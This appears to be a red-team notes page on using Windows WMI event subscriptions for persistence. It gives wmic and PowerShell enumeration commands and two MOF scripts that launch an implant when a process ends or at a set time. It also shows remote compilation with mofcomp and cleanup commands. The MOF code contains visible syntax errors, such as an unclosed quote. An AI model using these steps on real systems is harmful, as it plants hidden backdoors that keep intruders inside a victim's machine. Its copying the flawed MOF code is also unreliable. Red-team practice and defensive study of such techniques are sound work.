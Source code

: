 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1084
  - windows
---
```

# Living off the Land

TODO: Consult cybereason blog post to replicate the attacks (refer to the links)

## 01 - Command Prompt

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

List the Root namespace

```
C:\> wmic.exe /namespace:\\root path __namespace
```

## 02 - PowerShell

Query information about the namespaces for the WMI functions that will help us to make a persistence mechanism.

List the Root namespace

```powershell
PS C:\> Get-CimClass

PS C:\> Get-CimClass -Namespace ROOT/CIMV2 | Where-Object CimClassName -like Win32*

PS C:\> Get-WmiObject -namespace "root" -class "__Namespace" | select Name

PS C:\> Get-CimInstance -namespace "root" -class "__Namespace" | Select-Object Name
```

List the names for the Subscription

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -list

PS C:\> Get-CimInstance -Namespace root\Subscription -list
```

Display the information of the __EventFilter class and it's ability to trigger any `MSFT_SCMEventLogEvent`

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -Class __EventFilter

PS C:\> Get-CimInstance -Namespace root\Subscription -Class __EventFilter
```

- Same thing with the __EventConsumer that has the `SCM Event Log Consumer` for an event that will happen

```powershell
PS C:\> Get-WmiObject -Namespace "root\Subscription" -Class __EventConsumer

PS C:\> Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

Spawn an implant when a program such as a calculator gets terminate if no process is present.

```
C:\> type wmievent.mof
#pragma namespace ("\\\\.\root\\subscription)

instance of CommandLineEventConsumer as $Cons {
    Name = "TestConsumer"
    CommandLineTemplate="C:\\path\\to\shell.exe";
};

Instance of __EventFilter as $Filt {
    Name = "TestFilter";
    Query = "Select * From __InstanceDeletionEvent WITHIN 5 "
            "Where TargetInstance ISA \ "Win32_Process\" "
            "AND TargetInstance.Name = \"win32calc.exe\"";
    QueryLanguage = "WQL";
    EventNamespace = "root\\subscription";
};

Instance of __FilterToConsumerBinding {
    Filter = $Filt;
    Consumer = $Cons;
}
```

Spawn an implant when a specific time has been reached.

```
C:\> type wmievent.mof
#pragma namespace ("\\\\.\root\\subscription)  
  
instance of CommandLineEventConsumer as $Cons {  
    Name = "TestConsumer"  
    CommandLineTemplate="C:\\path\\to\shell.exe";  
};  
  
Instance of __EventFilter as $Filt {  
    Name = "TestFilter";  
    Query = "Select * From __InstanceModificationEvent "  
            "Where TargetInstance ISA \ "Win32_LocalTime\" "  
            "AND TargetInstance.Hour = 1 "  
            "AND (TargetInstance.Minute = 24 "  
            "OR TargetInstance.Minute = 25 "  
            "OR TargetInstance.Minute = 26) "  
            "AND TargetInstance.Second = 30 ";  
    QueryLanguage = "WQL";  
    EventNamespace = "root\\cimv2";  
};  
  
Instance of __FilterToConsumerBinding {  
    Filter = $Filt;  
    Consumer = $Cons;  
}
```

Execute the MOF script.

```
C:\> mofcomp wmievent.mof
```

You can execute it remotely without touching the disk.

```
C:\> mofcomp -N \\<IP>\root\subscription wmievent.mof
```

### 2.1 - Clean up the backdoors

- Query the namespace for `__EventFilter`

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

```
C:\> wmic /namespace:"\\root\subscription" path __EventFilter where name="TestFilter" delete
```

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter -Filter "Name='TestFilter'" | Remove-WMIObject -Verbose
```

- Query to double check if it's deleted

```powershell
PS C:\> Get-WmiObject -namespace root\subscription -class __EventFilter

PS C:\> Get-CimInstance -namespace root\subscription -class __EventFilter
```

- Delete the name of the Filter

```
C:\> wmic /namespace:"\\root\subscription" path __FilterToConsumerBinding where Filter="__EventFilter.Name='TestConsumer'" delete
```

TODO: Convert this to Get-CimInstance

```powershell
PS C:\> Get-WmiObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path like 'TestConsumer'" | Remove-WMIObject
```

---
## References

### LOFLCAB

- [LOFLCAB: WMIC](https://lofl-project.github.io/loflcab/Binaries/wmic/)

### Red Team Notes

- [Red Team Notes: Abusing Windows Managent Instrumentation](https://www.ired.team/offensive-security/persistence/t1084-abusing-windows-managent-instrumentation)

- [Red Team Notes: WMI as a Data Storage](https://www.ired.team/offensive-security/persistence/t1084-abusing-windows-managent-instrumentation/wmi-data-storage)

### Pentestlab

- [Pentestlab Blog: Persistence WMI Event Subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)

- [Cybdefnp: Malware Persistence in WMI](https://cybdefnp.wordpress.com/2020/07/05/malware-persistence-in-wmi/)

- [PDQ: Powershell Guide Get-CimInstance and Get-WmiObject](https://www.pdq.com/blog/powershell-guide-get-ciminstance-and-get-wmiobject/)

- [in.security: An intro into abusing and identifying WMI Event Subscriptions for persistence](https://in.security/2019/04/03/an-intro-into-abusing-and-identifying-wmi-event-subscriptions-for-persistence/)

- [SS64: Get-CimInstance](https://ss64.com/ps/get-ciminstance.html)

- [FuzzySecurity: Windows Userland Persistence Fundamentals](https://fuzzysecurity.com/tutorials/19.html)